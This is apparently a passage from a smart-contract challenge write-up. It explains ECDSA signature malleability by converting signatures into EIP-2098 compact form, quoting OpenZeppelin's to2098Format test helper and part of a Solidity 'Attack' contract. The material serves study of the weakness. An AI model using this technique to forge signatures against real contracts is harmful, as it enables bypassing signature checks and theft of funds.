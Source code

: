 <br/>

In order to exploit the **ECDSA signature malleability**, one can disassemble any **original** signatures found in the transactions generated during the **deployment** process to extract their `r`, `s`, `v` values and create brand new `EIP-2098` compact signatures.

Have a look at the [`to2098Format`](https://github.com/frangio/openzeppelin-contracts/blob/312609159161d7f6367ee982c685aaeead25a372/test/utils/cryptography/ECDSA.test.js#L12-L23) function implementation that can be found in the `openzeppelin-contracts/test/utils/cryptography/ECDSA.test.js` to better understand the conversion process:
```solidity
function to2098Format (signature) {
    const long = web3.utils.hexToBytes(signature);
    if (long.length !== 65) {
        throw new Error('invalid signature length (expected long format)');
    }
    if (long[32] >> 7 === 1) {
        throw new Error('invalid signature \'s\' value');
    }
    const short = long.slice(0, 64);
    short[32] |= (long[64] % 27) << 7; // set the first bit of the 32nd byte to the v parity bit
    return web3.utils.bytesToHex(short);
}
```

<br/>

Our `malleability` function performs steps similar to the [`to2098Format`](https://github.com/frangio/openzeppelin-contracts/blob/312609159161d7f6367ee982c685aaeead25a372/test/utils/cryptography/ECDSA.test.js#L12-L23) function mentioned above:
1. Requires the original signature:&emsp;`bytes memory signature`.
2. Extracts the `r`, `s`, `v` values from the original signature.
3. Sets the first bit of the 32nd byte to the `v` parity bit:&emsp;`s |= bytes32((uint256(v) % 27) << 255);`.
4. Returns the generated `EIP-2098` compact signatures based on the original signature.
```solidity
...
contract Attack {
    ...
    function malleability(bytes memory signature) internal pure returns(bytes memory) {
        bytes32 r;
        bytes32 s;
        uint8 v;
        assembly {
            r := mload(add(signature, 32))
            s := mload(add(signature, 64))
            v := byte(0, mload(add(signature, 96)))
        }
        s |= bytes32((uint256(v) % 27) << 255);
        return abi.encodePacked(r, s);
    }
    ...
}
```
